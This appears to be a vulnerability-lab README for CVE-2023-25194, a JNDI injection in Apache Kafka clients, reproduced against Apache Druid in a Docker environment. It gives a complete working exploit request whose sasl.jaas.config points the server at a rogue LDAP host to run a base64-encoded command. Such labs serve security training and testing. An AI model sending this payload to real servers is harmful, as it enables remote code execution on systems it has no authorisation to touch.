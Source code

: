 # Apache Kafka Clients JNDI injection RCE (CVE-2023-25194)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Kafka is an open-source distributed event streaming platform that is used for real-time data streaming and processing. Kafka clients are a set of Java libraries that allow you to produce and consume messages from Apache Kafka.

In the version prior to 3.4.0, there is a JNDI injection issue in the Apache Kafka clients if an attacker is able to set the `sasl.jaas.config` property for any of the connector's Kafka clients to `com.sun.security.auth.module.JndiLoginModule`. It will allow the server to connect to the attacker's LDAP server and deserialize the LDAP response, which the attacker can use to execute java deserialization gadget chains on the Kafka connect server. Attacker can cause unrestricted deserialization of untrusted data (or) RCE vulnerability when there are gadgets in the classpath.

Because this issue exists in a Java library, we have to find a real world software that is using the kafka-clients.

This software is Apache Druid, which is depended on kafka-clients to connect to one of its datasources. This guide is demonstrates how to exploit CVE-2023-25194 in the Apache Druid server.

References:

- <https://nvd.nist.gov/vuln/detail/CVE-2023-25194>
- <https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml>
- <https://hackerone.com/reports/1529790>

## Vulnerable Environment

Execute following command to start a Apache Druid server 25.0.0 which is depended on kafka-clients 3.3.1:

```
docker-compose up -d
```

After server is started, you can see the home page of Apache Druid on `http://your-ip:8888`.

## Exploit

Firstly, use [JNDIExploit](https://github.com/vulhub/JNDIExploit) to start a rogue JNDI server:

![](1.png)

You will get some evil urls from this tool, modify it.

Paste the evil LDAP url into following request and send it:

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://roguo-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

![](2.png)

As you can see, `id > /tmp/success` was executed successfully:

![](3.png)
